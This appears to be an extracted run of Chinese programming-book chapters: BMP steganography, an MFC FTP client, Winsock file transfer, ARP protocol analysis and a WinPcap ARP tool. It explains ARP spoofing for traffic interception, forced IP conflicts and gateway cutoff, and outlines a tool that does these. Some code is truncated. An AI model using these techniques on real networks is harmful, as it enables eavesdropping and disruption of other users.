Z-File采用了将加密后的文件直接联结在BMP图片后边的做法，而这种做法本身就有着一些安全隐患。其一，既然是直接连接在BMP图片后边，那就可以直接分离图片和文件，这给解密带来极大的方便。而且，《分》文中的分析指出，在图片中存在的一些特殊的字符串对还原功能有意义，对特殊字符串的研究将又会给解密分离后的文件带来一些帮助。其二，由于BMP图片的大小计算起来非常容易，这就使得用编制软件来判断BMP中是否藏有信息成为了可能。一张BMP图片的大小=图像的宽度×图像的高度×像素的位数/8+位图在BMP图片中的偏移量（一般为54个字节），这样，多出的部分就是后附加上去的内容。这个用软件来进行判断的方法是不是很方便？：）其三，我认为Z-File在设计之初的指导方向上有点问题。《分》文的软件介绍提到，这款软件最大的特点在于它运用了社会工程学的原理，它利用人们对图像文件充分信任的特点来进行信息的隐藏。然而，它只是利用人们对BMP图片的信任，一旦人们稍微注意一下，就很容易发现图片中的秘密，将加密文件与图片分离出来，那Z-File软件的最大卖点也就随之消失，解密被加密的文件我想也只是时间上的问题了。当解密高手们稍稍把目光投向图片时，Z-File是不是就显得很脆弱呢？另外，这里我还要提一下《分》文的作者提出的改进方法。他的方法是将要伪装的文件放到像素开始的地方，这样会给分离文件带来一些麻烦，但是图像文件加长的事实还是无法改变，因此这种改进方法没有什么太大的价值。

#### 二、另类的伪装方法

既然Z-File有这么多的安全隐患，弃之一旁绝对不是我们作风，我们应该想想改进的方法，使伪装更“像”。摆在面前的最大问题是怎样使伪装后的图片大小不变？这种想法是否能够实现呢？说到这里，我们就不得不说BMP文件的构成了。不过，《分》文中对这个已经进行详细的说明了，我也不多说。24位BMP真彩图片是每3个字节表示一个像素，每一个字节分别代表红、绿、蓝。下面我说一下，为什么说24位BMP有冗余的信息？其实冗余信息是因为人的眼睛对像素的分辨能力有限造成的。我们可以做两个实验。一是使用Win98自带的画图板，再选择编辑颜色，打开“自定义颜色”按钮，改变R、G、B的值，不要变很大，是不是看不出图片有什么变化？这是因为人的眼睛对颜色的细微变化不敏感。二是使用一些图片制作软件，将一张24位BMP图片变成JPG的，在变换的时候，压缩率不要采用很高，将变换后的图片和变换前的比较一下，能看出其中的差别么？我们都知道，在文件大小上，JPG要比BMP小多了，原理就是使用了新的存储形式，并且“损失”掉了BMP图片中的冗余信息。通过这两个例子可以看出来，如果我们能利用这些冗余的信息来存储我们要加密的文件信息，那就既不会影响图片的质量，又不会使图片的大小发生变化。这样，前面提出的问题就迎刃而解了。在安全方面，因为是将加密信息“融入”到图片当中，而且有很多种“融入”方法，这就使得软件分离变成不可能，即使是人工分离，也是相当困难的。

下面我就说一下伪装的原理。如上图所示。左边的那列R、G、B分别是代表BMP位图阵列里面的的各个像素中的分量，右边的则是要被隐藏文件的字节。图中所示的是最简单的形式，即将要被隐藏的文件的字节拆成一位一位的，分别覆盖像素各个分量字节的最末一位。这样一直循环到低，就可以将被隐藏文件全部写到像素的各个分量中。这样做是不是很巧妙？这样文件才真正in the picture!

#### 三、编程语言的选择

知道了编程原理，再选用比较适合该软件进行开发，一般都会事半功倍。就上述的原理来看，因为要涉及到很多移位、文件读写等操作，选用C语言是比较好的选择。但是TC的界面不是很友好，VC++及C++Builder我用起来不是得心应手，于是就想到VB这个大家都熟知的编程语言。

#### 四、打造软件

因为VB没有关于移位操作的指令，我们必须自己动手去做一个类似功能的函数。VB中，字符串的操作十分方便和简单，所以我们就将从文件中读取的Byte型数据变成二进制的字符串形式。代码如下所示：

```
' 将读出的字节型数据转换成字符型
Function BytetoStr(y As Byte) As String
Dim binstr As String
Dim x As Integer
Dim number As Integer
number = CInt(y)
binstr = ""
number = number + 1
For x = 7 To 0 Step -1
```

## 第8章 网络程序开发

### 8.1 FTP客户端编程简谈

FTP是文件传输的一种通用方式，它通过两个TCP连接来传输一个文件，即控制连接和数据连接，控制连接用于交换命令与应答的通信链路控制，而数据连接则主要是文件传输的通道。这种方式主要通过C/S的方式实现文件数据的传输。客户端与服务器连接的原理图如图8-1所示。


从原理图我们可以看出，对基于FTP客户端的编写主要集中在用户控制协议模块上面，即我们不仅要发送响应的命令给FTP服务器，也需要对服务器的响应进行相应的解释，这样才能与服务器进行正常的通信和数据传输。

下面简单阐述FTP中与编程有关的重要概念。

- 1.文件类型

在FTP中，文件类型主要有两种：ASCII和BINARY。ASCII是FTP默认的文件类型，用于传输文本文件；而BINARY传输方式则适用于图像文件，可执行文件等类型文件的传输。

- 2.传输模式

FTP定义了3种文件传输模式：流模式(S)，块模式(B)和压缩模式(C)。流模式以字节流传送，EOR和EOF代表双字节控制码，接受的数据就是文件内容；顾名思义，块模式以块的方式传送，用控制差错冲传机制；压缩模式在传输过程中，需要同时传输3种信息，即一般数据、压缩数据和控制信息。

- 3.FTP工作流程

FTP以命令的方式用ASCII码在客户和服务器的控制连接上应答，要求在每行结尾必须返回CR,LF对。FTP命令分为控制命令，传输参数命令和FTP服务命令。通过命令的控制手段体现FTP的C/S结构。

以上只是对FTP的一个简要叙述，如果想完全了解FTP，请参阅RFC959。

下面开始进行程序编写的讨论。

本文利用FTP原理创建了一个FTP的浏览器，我们可以连接到服务并能遍历目录，双击指定文件可以下载文件到本地。

我们创建MFC AppWizard(exe)，工程名取名cftp，选择“单个文档”，“Windows Socket”，不选择打印和工具栏选项。这样系统自动为我们生成Cabou tDlg,CcftpApp,CcftpDoc,CcftpView,

## CmainFrame 5个类。

添加对话框类CmessageDlg用于显示连接状态的数据记录；添加4个对话框IDC_SVRADDRESS，IDC_PORT，IDC_USER，IDC_PASS分别用于设置连接。添加IDOK和IDCANCEL 2个按钮。通过“建立类向导”，为对话框添加一个CsetupDlg类。如图8-2所示。

通过同样方式，添加对话框类CsetupDlg用于设置登录的连接设置。添加一个IDC_TEXTOUT的文本框和一个IDOK的按钮，通过“建立类向导”，与新建类CmessageDlg相关联。如图8-3所示。

经过以上步骤，建立程序的界面管理。下面将介绍程序主题部分，其他细节可参阅程序源代码。

程序主题为FtpClient类，这个类封装FTP连接所需要的成员变量和成员函数，具体类成员请看光盘中的代码。下面分别对主体类中的重要函数进行介绍。

Login函数提供了连接的参数设置、服务器地址、端口和用户名密码。这里把参数简单化，如果要使程序更健壮些，则还需要考虑有防火墙和代理等特殊情况。

```
# BOOL CFTPClient::Logon(CString hostname, int hostport,
CString username, CString password, CString acct){
// 显示一个显示连接状态信息的窗口
if(m_dlgMsg.m_hWnd == NULL){
m_dlgMsg.Create(AfxGetMainWnd());
}
else
m_dlgMsg.ShowWindow(SW_SHOW);
int port,logonpoint=0;
const int LO=-2, ER=-1;
CString temp;
int logonseq[1][100] = {0,LO,3, 1,LO,6, 2,LO,ER}; // 这里只考虑的直接连接的情况
// 这里还可为其他情况插入接受
// 序列
temp=hostname;
port=hostport;
if(hostport!=21)
hostname.Format(hostname+":%d",hostport); // 判断FTP 服务器端口号
if(!ConnectRemote(temp,port)) // 建立与远程服务器的连接关系
return false;
if(!FTPcommand(
```

```
case 1:
	temp="PASS "+password;
	break;
case 2:
	temp="ACCT "+acct;
	break;
}
// 发送相应的名字，与服务器进行通信
if(!WriteStr(temp))
	return FALSE;
if(!ReadStr())
	return FALSE;
// only these responses are valid
if(m_fc!=2 && m_fc!=3)
	return FALSE;
logonpoint=logonseq[0][logonpoint+m_fc-1]; //get next command from array
switch(logonpoint) {
case ER: // 这里表示错误发生
	m_retmsg.LoadString(IDS_FTPMSG1);
	return FALSE;
case LO: // 成功登录服务器
	return TRUE;
}
```

下面实现连接函数，本函数主要使用 winsock API接口实现。代码如下：

```
BOOL CFTPClient::ConnectRemote(CString serverhost, int serverport)
{ // 删除原有传输控制套节字对象
SAFEDLETE(m_pCtrlRxarch);
SAFEDLETE(m_pCtrlTxarch);
SAFEDLETE(m_pCtrlsokfile);
SAFEDLETE(m_Ctrlsok);
// 以下为标准的 Winsock 编程模式，创建控制套节字，
// 连接套节字等对象来控制与服务器之间的通信
if(m_Ctrlsok == NULL)
	m_Ctrlsok = new CFTPSocket;
if( !(m_Ctrlsok->Create()) )
	return FALSE;
if(!(m_Ctrlsok->Connect(serverhost,serverport)))
	return FALSE;
if(!(m_pCtrlsokfile=new CSocketFile(m_Ctrlsok)))
	return FALSE;
if(!(m_pCtrlRxarch=new CArchive(m_pCtrlsokfile, CArchive::load)))
	return FALSE;
if(!(m_pCtrlTxarch=new CArchive(m_pCtrlsokfile, CArchive::store)))
	return FALSE;
return TRUE;
}
```

FTPCommand用于对服务器发送命令。其主要使用WriteStr()函数和ReadStr()来实现与服务器通信，由于节约篇幅，这里就不在罗列。下面介绍文件下载函数MoveFile()，其主要完成以下几个工作：

- (1) 设置为二进制模式；
- (2) 使用PASV模式时，从服务器获得套接字；
- (3) 创建侦听套节字，并开始端口侦听；
- (4) 发送RETR和STOR，可参阅RFC959，理解此服务器命令；
- (5) 下载数据到本地。

其他成员函数的编写思路比较简单，可参阅源代码部分获得整体的理解。接着，我们加入ListItme类用于保存列表目录项的相关信息，并用CCFTPDc类型对文件进行检索和遍历目录，这样我们大体上就完成了一个基于Winsock的客户端的浏览器。详细的部分请参阅程序代码。最终效果如图8-4所示。

## 后记：

经过9天的编写程序、请教、研究Winsock，终于写完这个不算完善的FTP client，确切地说应该是FTP brower。其实，开始的时候很想用VB来写，毕竟用Internet Control控件编写一个完善的FTP客户端程序可能开发效率要高得多，而用VC++ Winsock编程，要考虑的细节部分太多，实在有些伤脑筋，毕竟我从开始学习C++到现在也才3个多月的时间（刚看完C++ essential），因此，程序在某些方面也做得有欠缺。不过，相信通过这篇文章能让大家领略一下Winsock编程的一些精髓思想。

### 8.2 打造专用的远程文件传输器

其实说到远程文件传送，大家一定不会陌生，小到从局域网中其他共享机器上取得数据，大到在Internet上浏览网页，下载歌曲等，无不是远程文件传送的具体应用。

本文将为你讲述远程文件传送的原理和一个基于TCP/IP协议的远程文件传送的编程实现样例，所以，有过使用Winsock编程经历的读者，只需要关心本文中讲到的关键代码即可。因为这是一篇针对初中级网络编程爱好者的文章。

Windows Socket就是Windows下基于TCP/IP协议进行网络管理和传送的接口。它提供一组API函数，让我们能够实现第三层及以上层功能，所以我们一些入门的网络编程都是从Winsock开始的。因为针对的不是高级读者，所以我们使用Winsock控件，它对Winsock API函数进行了封装，提供TCP、UDP两种数据传送协议的支持，简化了开发应用层程序的手续。

#### 1. 实际应用流程

- (1) 建立TCP连接，开启稳定的传送通道。
- (2) 发送控制标记、文件长度、文件名。
- (3) 二进制方式打开文件，并发送二进制数据。
- (4) 发送端TCP底层会为传送的数据分块（8192/块）并缓冲，然后按TCP窗口中的编号发送（此步骤为系统完成，窗口就是存放多个缓冲块的地方，缓冲区中的任何数据都是二进制）。
- (5) 接收端TCP按编号缓冲数据，但每次接收一个最大是8192字节的数据块后就导致DataArrival事件。
- (6) 从数据块（缓冲）中读取控制标记（并检查标记）、文件长度、文件名。
- (7) 从数据块中根据文件长度读取二进制数据，按二进制方式保存数据（当文件大小大于8192字节时，分多次接收）。
- (8) 在接收完最后一块数据之后，再额外接收一个字节，接收下一个文件（注：额外一字节为结束控制符）。

#### 2. 关于代码

该程序有两部分组成客户端和服务端，其实两者代码是相同的，除了各自用于侦听的端口不同，一个是12345，一个是12346。由于篇幅较长，完整代码请见光盘。

#### 3. 注意点

- (1) 一些资料上介绍TCP缓冲的数据块是4096字节，但我实际中发现是8192字节，不知是不是因为自己在本地机器上调试，所以是接受和发送两个缓冲区相加的缘故。
- (2) 最后一步如果不额外接收一个字节，则无法接收下一个文件，跟踪发现控制标识不符。
- (3) 控制块长度（此处为58）一定要设定。文件数据都要以二进制形式操作，一方面是因为TCP缓冲区中保存的是二进制数据；另一方面是所有文件都可以这种方式打开并传送。
- (4) 此程序运行后，发现不能传送中文文件名的文件，因为中文名的长度与英文名不同。另外，可能中文名使用Unicode双字节编码，所以发送的时候数据长度不好确定。由于这个问题不是本文主要探讨的内容，所以未深入研究，不足之处请读者见谅！

其实实现文件传送，不用从TCP协议层开始，而利用Windows提供的一些Internet函数，比如FTP函数也是可以的，但是这样的应用我们只用完成客户端的编制，服务器端则要使用现成的FTP等，这样有一定实用价值，但对于学习网络编程则不利。

对于初学网络编程的新手，最好刚开始就对网络架构组成有个整体的认识。虽说本文是针对初中级读者，其实文中还有很多地方是点到为止的，希望有想法的朋友对这些地方能够深入了解。

## 8.3 ARP协议分析

ARP (Address Resolution Protocol) 地址解析协议用于将计算机的网络地址（IP地址32位）转化为物理地址（MAC地址48位）[RFC 826]。ARP协议是属于链路层的协议，在以太网中的数据帧从一个主机到达网内的另一台主机是根据48位的以太网地址（硬件地址）来确定接口的，而不是根据32位的IP地址。内核（如驱动）必须知道目的端的硬件地址才能发送数据。当然，点对点的连接是不需要ARP协议的。

### 一、ARP协议的数据结构

```
typedef struct arphdr
{
    unsigned short arp_hrd;    /* 硬件类型 */
    unsigned short arp_pro;    /* 协议类型 */
    unsigned char arp_hln;     /* 硬件地址长度 */
    unsigned char arp_pln;     /* 协议地址长度 */
    unsigned short arp_op;     /* ARP 操作类型 */

    unsigned char arp_sha[6];  /* 发送者的硬件地址 */
    unsigned long arp_spa;     /* 发送者的协议地址 */
    unsigned char arp_tha[6];  /* 目标的硬件地址 */
    unsigned long arp_tpa;     /* 目标的协议地址 */
}ARPHDR, *PARPHDR;
```

为了解释ARP协议的作用，就必须理解数据在网络上的传输过程。这里举一个简单的Ping例子。

假设我们的计算机IP地址是192.168.1.1，要执行这个命令：ping 192.168.1.2。该命令会通过ICMP协议发送ICMP数据包。该过程需要经过下面的步骤：

1. 应用程序构造数据包，该示例是产生ICMP包，被提交给内核（网络驱动程序）。
2. 内核检查是否能够转化该IP地址为MAC地址，也就是在本地的ARP缓存中查看IP-MAC对应表。
3. 如果存在该IP-MAC对应关系，那么跳到步骤9；如果不存在该IP-MAC对应关系，那么接续下面的步骤。
4. 内核进行ARP广播，目的地的MAC，地址是FF-FF-FF-FF-FF-FF，ARP命令类型为REQUEST（1），其中包含有自己的MAC地址。
5. 当192.168.1.2主机接收到该ARP请求后，就发送一个ARP的REPLY（2）命令，其中包含自己的MAC地址。
6. 本地获得192.168.1.2主机的IP-MAC地址对应关系，并保存到ARP缓存中。
7. 内核将把IP转化为MAC地址，然后封装在以太网头结构中，再把数据发送出去。

使用arp -a 命令就可以查看本地的ARP缓存内容，所以，执行一个本地的Ping命令后，ARP缓存就会存在一个目的IP的记录里。当然，如果你的数据包是发送到不同网段的目的地，那么就一定存在一条网关的IP-MAC地址对应的记录。

知道了ARP协议的作用，就能够很清楚地知道，数据包的向外传输很依靠ARP协议，当然，也就是依赖ARP缓存。要知道，ARP协议的所有操作都是内核自动完成的，同其他的应用程序没有任何关系。同时需要注意的是，ARP协议只使用于本网络。

### 二、ARP协议的利用和相关原理介绍

##### 1. 交换网络的嗅探

ARP协议并不只在发送了ARP请求才接收ARP应答。当计算机接收到ARP应答数据包的时候，就会对本地的ARP缓存进行更新，将应答中的IP和MAC地址存储在ARP缓存中。因此，在上面的假设网络中，B向A发送一个自己伪造的ARP应答，而这个应答中的数据为发送方IP地址是192.168.10.3（C的IP地址），MAC地址是DD-DD-DD-DD-DD-DD（C的MAC地址本来应该是CC-CC-CC-CC-CC-CC，这里被伪造了）。当A接收到B伪造的ARP应答，就会更新本地的ARP缓存，将本地的IP-MAC对应表更换为接收到的数据格式，由于这一切都是A的系统内核自动完成的，A可不知道被伪造了。

ARP欺骗的主要用途就是进行在交换网络中的嗅探。有关交换网络的嗅探不是本文的讨论内容。

#### 2. IP地址冲突

我们知道，如果网络中存在相同IP地址的主机的时候，就会报告出IP地址冲突的警告。这是怎么产生的呢？

比如某主机B规定IP地址为192.168.0.1，如果它处于开机状态，那么其他机器A更改IP地址为192.168.0.1就会造成IP地址冲突。其原理就是：主机A在连接网络（或更改IP地址）的时候就会向网络发送ARP包广播自己的IP地址，也就是free arp。如果网络中存在相同IP地址的主机B，那么B就会通过ARP来reply该地址，当A接收到这个reply后，A就会跳出IP地址冲突的警告，当然B也会有警告。

因此，用ARP欺骗可以来伪造这个ARP reply，从而使目标一直遭受IP地址冲突警告的困扰。

##### 3. 阻止目标的数据包通过网关

比如在一个局域网内通过网关上网，那么，连接外部计算机上的ARP缓存中就存在网关IP-MAC对应记录。如果，该记录被更改，那么该计算机向外发送的数据包总是发送到了错误的网关硬件地址，这样，该计算机就不能够上网了。

这里也主要是通过ARP欺骗进行的。有两种办法达到这样的目的。

- (1) 向目标发送伪造的ARP应答数据包，其中发送方的IP地址为网关的地址，而MAC地址则为一个伪造的地址。当目标接收到该ARP包，那么就更新自身的ARP缓存。如果该欺骗一直持续下去，那么目标的网关缓存一直是一个被伪造的错误记录。当然，如果有些了解的人查看ARP -a，就知道问题所在了。

- (2) 这种方法非常狠，欺骗网关。向网关发送伪造的ARP应答数据包，其中发送方的IP地址为目标的IP地址，而MAC地址则为一个伪造的地址。这样，网关上的目标ARP记录就是一个错误的，网关发送给目标的数据报都是使用了错误的MAC地址。这种情况下，目标能够发送数据到网关，却不能接收到网关的任何数据。同时，目标自己查看ARP -a却看不出任何问题来。

#### 4. 通过ARP检测混杂模式节点

在混杂模式中，网卡进行包过滤不同于普通模式。本来在普通模式下，只有本地地址的数据包或者广播（多播等）才会被网卡提交给系统核心，否则的话，这些数据包就直接被网卡抛弃。现在，混合模式让所有经过的数据包都传递给系统核心，然后被Sniffer等程序利用。

通过特殊设计的ARP请求可以用来在一定程度上检测处于混杂模式的节点，比如对网络中的每个节点都发送MAC地址为FF-FF-FF-FF-FF-FE的ARP请求。对于网卡来说这不是一个广播地址（FF-FF-FF-FF-FF-FF），所以处于普通模式的节点就会直接抛弃该数据包，但是多数操作系统核心都认为这是一个广播地址，如果有一般的Sniffer程序存在，并设置网卡为混杂模式，那么系统核心就会做出应答，这样就可以判断这些节点是否存在嗅探器了。

可以查看，很多基于ARP的攻击都是通过ARP欺骗实现的。至于ARP欺骗的防范，还是尽可能使用静态的ARP。对于WIN，使用 arp -s 来进行静态ARP的设置。当然，如果能够完全使用静态的IP+MAC对应，就更好了，因为静态的ARP缓存只是相对的。

当然，可以有一些方法来实现ARP欺骗的检测。设置一个ARP的嗅探器，其中维护着一个本地网络的IP-MAC地址的静态对应表，查看所有经过的ARP数据，并检查其中的IP-MAC对应关系，如果捕获的IP-MAC对应关系和维护的静态对应关系对应不上，那么就表明是一个欺骗的ARP数据包了。

光盘中附有作者提供的一个ARP数据包发送程序源代码和编译好的EXE程序。注意：需要先安装WinPcap。

## 8.4 详谈调用Winpcap驱动写Arp多功能工具

### 一、winpcap驱动简介

winpcap(windows packet capture)是windows平台下一个免费，公共的网络访问系统。开发winpcap这个项目的目的在于为Win32应用程序提供访问网络底层的能力。它提供了以下各项功能：

- (1) 捕获原始数据包，包括在共享网络上各主机发送/接收的以及相互之间交换的数据包；
- (2) 在数据包发往应用程序之前，按照自定义的规则将某些特殊的数据包过滤掉；
- (3) 在网络上发送原始的数据包；
- (4) 收集网络通信过程中的统计信息。

winpcap的主要功能在于独立于主机协议（如TCP-IP）而发送和接收原始数据包。也就是说，winpcap不能阻塞、过滤或控制其他应用程序数据包的发收，它仅仅只是监听共享网络上传送的数据包。因此，它不能用于QoS调度程序或个人防火墙。

目前，Winpcap开发的主要对象是Windows NT/2000/XP，这主要是因为在使用Winpcap的用户中## 只有一小部分是使用 Windows 95/98/Me，并且 M$ 也已经放弃了对 Win9x 的开发。因此本文相关的程序 T-ARP 也是面向 Win NT/2000/XP 用户的。其实 Winpcap 中面向 Win 9x 系统的概念和 Win NT 系统非常相似，只是在某些实现上有点差异，比如说 Win 9x 只支持 ANSI 编码，而 Win NT 系统则提倡使用 Unicode 编码。

本节讨论的是 packet.dll 所提供的各种函数，因为它们完全可以实现本文所希望的各项要求。但是如果你有其他特别的或更高级的要求，winpcap 也提供了另一个动态链接库 wpcap.dll。虽然 wpcap.dll 依靠于 packet.dll，但是它却提供了一种更简单、直接、有力的方法来更好的利用编程环境。比如捕获一个数据包，创建一个数据包过滤装置或将监听到的数据包转存到某个文件等，wpcap.dll 都会为你提供更加安全的实现方法。

#### 二、Packet.dll 相关数据结构及函数

本文的目的之一在于介绍如何利用 winpcap 驱动写 ARP 工具，因此有必要介绍一些相关的数据结构和函数，要不然看着一行行代码和函数，也许会有些不知所云。

首先介绍一些相关的数据结构：

- 1. typedef struct _ADAPTER ADAPTER // 描述一个网络适配器；
- 2. typedef struct _PACKET PACKET // 描述一组网络数据包的结构；
- 3. typedef struct NetType NetType // 描述网络类型的数据结构；
- 4. typedef struct npf_if_addr npf_if_addr // 描述一个网络适配器的 IP 地址；
- 5. struct bpf_hdr // 数据包头部；
- 6. struct bpf_stat // 当前捕获数据包的统计信息。

下面介绍 T-ARP 用到的各个函数，它们都是在 packet.dll 中定义的：

- 1. LPPACKET PacketAllocatePacket(void)
  如果运行成功，返回一个 _PACKET 结构的指针，否则返回 NULL。成功返回的结果将会传送到 PacketReceivePacket() 函数，接收来自驱动的网络数据包。
- 2. VOID PacketCloseAdapter(LPADAPTER lpAdapter)
  关闭参数中提供的网络适配器，释放相关的 ADAPTER 结构。
- 3. VOID PacketFreePacket(LPPACKET lpPacket)
  释放参数提供的 _PACKET 结构。
- 4. BOOLEAN PacketGetAdapterNames(LPSTR pStr, PULONG BufferSize)
  返回可以得到的网络适配器列表及描述。
- 5. BOOLEAN PacketGetNetInfoEx(LPTSTR AdapterNames, npf_IP_addr *buff, PLONG NEntries)
  返回某个网络适配器的全面地址信息。
  其中 npf_IP_addr 结构包含：IPAddress, SubnetMask, Broadcast
  IPAddress: IP 地址
  SubnetMask: 子网掩码
  Broadcast: 广播地址
- 6. BOOLEAN PacketGetNetType(LPADAPTER AdapterObject, NetType *type)
  返回某个网络适配器的 MAC 类型。
  NetType 结构里包含了 LinkSpeed(速度) 和 LinkType(类型)。其中 LinkType 包含以下几种情况：
  NdisMedium802_3: Ethernet(802.3)
  NdisMediumWan: WAN
  NdisMedium802_5: Token Ring(802.5)
  NdisMediumFddi: FDDI
  NdisMediumAtm: ATM
  NdisMediumArcnet878_2: ARCNET(878.2)
- 7. BOOLEAN PacketGetStats(LPADAPTER AdapterObject, struct bpf_stat *s)
  返回几个关于当前捕获报告的统计信息。
  其中 bpf_stat 结构包含: bs_recv, bs_drop, ps_ifdrop, bs_capt
  bs_recv: 从网络适配器开始捕获数据包开始所接收到的所有数据包的数目，包括丢失的数据包；
  bs_drop: 丢失的数据包数目。在驱动缓冲区已经满时，就会发生数据包丢失的情况。
- 8. PCHAR PacketGetVersion()
  返回关于 dll 的版本信息。
- 9. VOID PacketInitPacket(LPPACKET lpPacket, PVOID Buffer, UINT Length)
  初始化一个 _PACKET 结构。
- 10. LPADAPTER PacketOpetAdapter(LPTSTR AdapterName)
  打开一个网络适配器。
- 11. BOOLEAN PacketReceivePacket(LPADAPTER AdapterObject, LPPACKET lpPacket, BOOLEAN Sync)
  从 NPF 驱动程序读取网络数据包及统计信息。
  数据包编码结构:
  | bpf_hdr | data | Padding | bpf_hdr | data | Padding |
- 12. BOOLEAN PacketSendPacket(LPADAPTER AdapterObject, LPPACKET lpPacket, BOOLEAN Sync)
  发送一个或多个数据包的副本。
- 13. BOOLEAN PacketSetBuff(LPADAPTER AdapterObject, int dim)
  设置捕获数据包的内核级缓冲区大小。
- 14. BOOLEAN PacketSetHwFilter(LPADAPTER AdapterObject, ULONG Filter)
  为接收到的数据包设置硬件过滤规则。
  以下为一些典型的过滤规则:
  NDIS_PACKET_TYPE_PROMISCUOUS: 设置为混杂模式，接收所有流过的数据包；
  NDIS_PACKET_TYPE_DIRECTED: 只有目的地为本地主机网络适配器的数据包才会被接收；
  NDIS_PACKET_TYPE_BROADCAST: 只有广播数据包才会被接收；
  NDIS_PACKET_TYPE_MULTICAST: 只有与本地主机网络适配器相对应的多播数据包才会被接收；
  NDIS_PACKET_TYPE_ALL_MULTICAST: 所有多播数据包均被接收；
  NDIS_PACKET_TYPE_ALL_LOCAL: 所有本地数据包均被接收。
- 15. BOOLEAN PacketSetNumWrites(LPADAPTER AdapterObject, int nwrites)
  设置调用 PacketSendPacket() 函数发送一个数据包副本所重复的次数。
- 16. BOOLEAN PacketSetReadTimeout(LPADAPTER AdapterObject, int timeout)
  设置在接收到一个数据包后“休息”的时间。

以上就是 T-ARP 所调用的各个函数，它包含了 packet.dll 里的大部分函数。如果你想更深层地了解 winpcap，请访问相关网站，主页地址: http://winpcap.polito.it

#### 三、T-ARP 功能及原理介绍

准备工作:

- 1. 安装 winpcap 驱动，目前最新的版本为 winpcap_3.0_alpha，稳定版本为 winpcap_2.3；
- 2. 使用 ARP 欺骗功能前，必须启动 IP 路由功能，修改(添加)注册表选项：HKEY_LOCAL_MACHINE \SYSTEM\Current ControlSet\Services\TcpIP\Parameters\ IPEnableRouter = 0x1

选项：

- -m 主机扫描，获得局域网内指定 IP 段中存活主机的 IP 地址和 MAC 地址；
- -a 反嗅探扫描，获得局域网内指定 IP 段中嗅探主机的 IP 地址和 MAC 地址；
- -s ARP 欺骗，欺骗局域网内指定的两台主机，使其相互发送接收的数据包均通过本地主机；
- 网络嗅探：如果你选择欺骗的两台主机均是本地主机，那么将会监听到所有流过本地主机的数据包；
- IP 冲突：如果你选择欺骗的两台主机是同一台非本地主机，那么就会发起 IP 冲突攻击；
- -r 重置被欺骗主机，使被欺骗的两台主机恢复正常的工作状态。

### 原理及实现过程：

无论什么选项，第一件事就是获得本地主机的 MAC 地址及相关网络设置。我们以一个特殊的 IP 地址(112.112.112.112)向本地主机发送一个 ARP Request(ARP 请求)数据包，当本地主机接收到后，就会发送一个 ARP Reply(ARP 应答)数据包来回应请求，这样我们就可以获得本地主机的 MAC 地址了。至于相关的网络设置，可以通过 Packet GetNetInfoEx() 和 PacketGetNetType() 获得。

- -m 以本地主机的名义(本地主机的 IP 和 MAC)向指定 IP 网段内的所有主机发送广播(ff:ff:ff:ff:ff:ff) ARP Request 数据包，存活的主机就会发送 ARP Reply 数据包，这样就可以获得当前存活主机的列表。因为在很多网关上都对 ARP Request 做了限制——非内网 IP 发送的 ARP Request 数据包不会得到网关的回应，如果你用内网的其他某台主机的 IP 来发送 ARP Request 数据包，如果填写的 MAC 地址和相应的 IP 不合，就会出现 IP 冲突。所以最好还是用自己的 IP 和 MAC 地址来发送请求。

- -a 以本地主机的名义(本地主机的 IP 和 MAC)向指定 IP 网段内的所有主机发送 31 位伪广播地址(ff:ff:ff:ff:ff:fe)的 ARP Request 数据包，只有正在嗅探的主机才会发送 ARP Reply 数据包，这样就可以获得当前存活主机的列表。嗅探中的 Win2000 系统还会对 16 位伪广播地址(ff:ff:00:00:00:00)做出回应；而嗅探中的 Win95/98/Me 不仅会回应 16 位伪广播地址，而且也会回应 8 位伪广播地址(ff:00:00:00:00:00)，而 *NIX 系统对各种广播地址所做出的反应却有些不同。在此，我们选择 31 位伪广播地址，是因为绝大多数的系统在嗅探时都会对它做出回应。而正常状况下的各种系统，都不会对 31 位伪广播地址做出回应。

- -s (ARP 欺骗 spool) 需要强调的是在某些局域网(如以太网)内，数据包的发送与接收是基于硬件地址的，这是我们实现欺骗的基础。首先获得指定的两台主机(假设为 A 和 B)的 MAC 地址，然后向 A 发送 ARP Reply 数据包，其中的源 IP 地址为 B 的 IP 地址，但是源 MAC 地址却是本地主机的 MAC 地址，这样主机 A 就会认为主机 B 的 MAC 地址是本地主机的 MAC 地址，所以主机 A 发送到主机 B 的数据包都发送到本地主机了。同理向主机 B 发送 ARP Reply 数据包，通知它主机 A 的 MAC 地址为本地主机的 MAC 地址。这样主机 A 和主机 B 就会把目的主机的 MAC 地址理解为本地主机的 MAC 地址，于是它们之间相互发送的数据包都首先到达了本地主机，而先前我们已经将本地主机设置了 IP 路由功能，系统会自动将数据包转发到真正的目的主机。其间，你就可以监听它们通信的各种数据包了。

- -s (网络嗅探 sniff) 如果指定的两个目的主机均为本地主机，那么就只是将网络适配器设置为混杂模式，这样就可以监听到流过本地主机网络适配器的各种数据。

- -s (IP 冲突 shock) 如果你选择欺骗的两台主机是同一台非本地主机(假如是主机 C)，那么就会不断地向主机 C 发送 ARP Reply 数据包，报文中的源 IP 地址就是主机 C 的 IP 地址，但是源 MAC 地址却是本地主机的 MAC 地址，因此主机 C 就会发现有另一台主机同时拥有和自己相同的 IP，这就是 IP 冲突攻击。如果是非 xp 系统，都会跳出一个 IP 冲突的提示窗口，而 xp 系统也会有类似的警告。但是请注意，在主机 C 的系统事件查看器中，会留下本地主机的 MAC 地址与之冲突的记录，所以你最好不要滥用这个功能。

- -r 在实现了 ARP 欺骗的情况下，向主机 A 和 B 发送 ARP Reply 数据包，通知主机 A(B) 注意主机 B(A) 的 MAC 地址为主机 B(A) 自己的 MAC 地址，这样主机 A 和 B 就会更新它们的 ARP 缓存，实现正常的数据通信。

#### 四、T-ARP 主要代码分析

- 1. 自定义函数：

```
int getmine() //发送 ARP Request 数据包;请求获得本地主机的 MAC 地址;
void getdata(LPPACKET lp,int op) //分类处理接收到的数据包;
DWORD WINAPI sniff(LPVOID no) //将网络适配器设置为混杂模式,接收所有流过的数据包;
DWORD WINAPI sendMASR(LPVOID no) //发送 ARP Request 数据包,请求获得指定 IP 的 MAC 地址;
DWORD WINAPI sendSR(LPVOID no) //发送 ARP Reply 进行 ARP 欺骗,或是更新主机的 ARP 缓存。
```

- 2. 主要代码分析

```
printf("\nLibarary Version: %s",PacketGetVersion()); //输出 dll 的版本信息;
PacketGetAdapterNames((char *)adaptername,&adapterlength) //获得本地主机的网络适配器列表和描述;
lpadapter=PacketOpenAdapter(adapterlist[open-1]); //打开指定的网络适配器;
PacketGetNetType(lpadapter,&ntype) //获得网络适配器的 MAC 类型;
PacketGetNetInfoEx(adapterlist[open-1],&IPbuff,&npflen) //获得指定网络适配器的相关信息;
